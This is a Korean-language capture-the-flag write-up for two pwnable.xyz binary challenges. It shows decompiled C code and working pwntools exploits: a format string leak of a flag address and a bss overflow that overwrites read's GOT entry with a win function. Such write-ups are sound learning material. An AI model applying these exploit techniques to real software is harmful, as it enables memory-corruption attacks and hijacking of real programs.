 # pwnable.xyz
## Grownup
~~~c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *src; // ST08_8
  __int64 buf; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+18h] [rbp-18h]
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  setup();
  buf = 0LL;
  v6 = 0LL;
  printf("Are you 18 years or older? [y/N]: ", argv);
  *((_BYTE *)&buf + (signed int)((unsigned __int64)read(0, &buf, 0x10uLL) - 1)) = 0;
  if ( (_BYTE)buf != 'y' && (_BYTE)buf != 'Y' )
    return 0;
  src = (char *)malloc(0x84uLL);
  printf("Name: ", &buf);
  read(0, src, 0x80uLL);
  strcpy(usr, src);
  printf("Welcome ", src);
  printf(qword_601160, usr);
  return 0;
}
~~~
ida를 통해 본 코드는 위와 같다. 첫입력에서 y나 Y를 입력하지 않을 경우 프로그램이 멈춘다.
read를 한 것을 strcpy로 옮기는 것이 수상해서 검색해봤다. read는 null을 끝에 붙이지 않는데 strcpy는 null을 끝에 붙여준다.
좀 더 알아보니 포맷스트링 공격이 가능하다고 한다. 위 코드 경우 끝에 0x81에 null 값이 들어가서 포맷스트링 공격이 가능한 것이다.
data 부분을 조금 더 찾았더니 0x601080 주소에 flag가 있는 것을 확인했다. 내가 이해한 것은 0x80만큼 name부분에 집어넣어 포맷스트링을 
손상시키는 것이었는데 잘 안 되었다. 알고보니 처음에 y를 입력할 때 flag의 주소값을 입력해야 하는 거였다.
~~~python
from pwn import *
r=remote("svc.pwnable.xyz",30004)
flag=0x601080
pay=''
pay+='Y'+'A'*7+p32(flag)
r.recvuntil("[y/N]: ")
r.sendline(pay)
formatstr='%p%p%p%p%p%p%p%p%s%p%p%p'
pay=''
pay+='A'*60+formatstr+'A'*(0x80-len(formatstr)-32)
r.recvuntil("Name: ")
r.sendline(pay)
print r.recvall()
~~~
writeup을 참고하여 짜게 된 exploitcode이다. 우선 18살 이상이냐고 물을 때 y와 dummy(7) 그리고 flag 주소를 little endian으로 넣어줬다.
다음 formatstr을 통해 몇번째에 flag가 나타나는지 확인하고 그 부분을 %s로 바꾸어 flag를 확인했다.
## note
~~~c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  const char *v3; // rdi
  int v4; // eax

  setup(*(_QWORD *)&argc, argv, envp);
  v3 = "Note taking 101.";
  puts("Note taking 101.");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        print_menu(v3);
        v4 = read_int32();
        if ( v4 != 1 )
          break;
        edit_note();
      }
      if ( v4 != 2 )
        break;
      edit_desc();
    }
    if ( !v4 )
      break;
    v3 = "Invalid";
    puts("Invalid");
  }
  return 0;
}
~~~
코드는 위와 같았고 ida 옆에 win이라는 함수가 있길래 들어갔더니
~~~c
int win()
{
  return system("cat flag");
}
~~~
system 함수로 flag 값을 보여주는 것을 알 수 있었다. 이 함수의 주소를 사용하면 될 듯하다. buf에 값을 주는
함수를 찾았더니 edit_note와 edit_desc가 있었다. 이때 edit_note에서 정보를 받는 s의 32비트 밑에 buf가 있다.
~~~
.bss:0000000000601480 ; char s[32]
.bss:0000000000601480 s               db 20h dup(?)           ; DATA XREF: edit_note+67↑o
.bss:00000000006014A0 ; void *buf
.bss:00000000006014A0 buf             dq ?                    ; DATA XREF: edit_desc+4↑r
.bss:00000000006014A0                                         ; edit_desc+1A↑w ...
.bss:00000000006014A0 _bss            ends
~~~
그러니까 read 함수의 got를 구한 뒤 edit_note에 32비트의 dummy와 함께 got를 넣어 buf를 바꾸어놓은 후
다시 edit_note를 통해 win함수의 주소를 넣어 flag를 확인하면 된다.
~~~
.got.plt:0000000000601248 off_601248      dq offset read          ; DATA XREF: _read↑r
~~~
read()의 주소이다. 그리고 win함수의 주소는 0x40093c이다.
아래는 exploit code이다.
~~~python
from pwn import *

r = remote("svc.pwnable.xyz", 30016)

r.sendafter("> ","1")

r.sendafter("len? ","100")

r.sendafter("note: ","A"*32 + p64(0x601248))

r.sendafter("> ","2")

r.sendafter("desc: ",p64(0x40093c))

r.sendafter("> ","2")

print r.recvall()
~~~


